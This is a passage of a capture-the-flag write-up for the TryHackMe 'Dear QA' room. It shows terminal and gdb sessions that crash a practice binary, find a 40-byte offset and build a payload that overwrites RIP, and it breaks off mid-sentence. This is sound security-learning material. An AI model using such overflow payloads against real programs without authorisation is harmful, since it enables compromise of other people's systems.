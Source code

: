 Buffer Overflow Input:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Dear_QA]
└─$ ./DearQA.DearQA
Welcome dearQA
I am sysadmin, i am new in developing
What's your name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./DearQA.DearQA
```

Limited characters input:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Dear_QA]
└─$ python3 -c "print('A'*39)" | ./DearQA.DearQA                                      
Welcome dearQA
I am sysadmin, i am new in developing
What's your name: Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
                                                                                                                    
┌──(kali㉿kali)-[~/TryHackMe/Dear_QA]
└─$ python3 -c "print('A'*40)" | ./DearQA.DearQA
Welcome dearQA
I am sysadmin, i am new in developing
What's your name: Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: done                python3 -c "print('A'*40)" | 
zsh: segmentation fault  ./DearQA.DearQA
```

Buffer Overflow + override RIP Address:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Dear_QA]
└─$ python3 -c "print('A'*40+'\x40\x06\x68')" > exploit1

(gdb) run < exploit1 
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/kali/TryHackMe/Dear_QA/ver1_DearQA.DearQA < exploit1
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome dearQA
I am sysadmin, i am new in developing
What's your name: Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@h

Program received signal SIGSEGV, Segmentation fault.
0x00007fff00680640 in ?? ()
```

The RIP Address which out payload points to is `0x00007fff00680640`. However,  `0x0000000000400686` is where we want to point to. We have to reverse 

